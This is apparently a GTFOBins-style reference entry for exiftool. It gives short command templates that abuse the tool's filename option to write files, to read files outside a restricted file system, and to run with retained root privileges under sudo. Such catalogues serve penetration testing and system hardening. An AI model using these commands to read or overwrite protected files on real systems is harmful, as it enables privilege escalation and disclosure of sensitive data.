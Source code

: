 # GTFOBin: exiftool

If the permissions allow it, files are moved (instead of copied) to the destination.

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
INPUT=input_file
exiftool -filename=$LFILE $INPUT
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
OUTPUT=output_file
exiftool -filename=$OUTPUT $LFILE
cat $OUTPUT
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_write
INPUT=input_file
sudo exiftool -filename=$LFILE $INPUT
```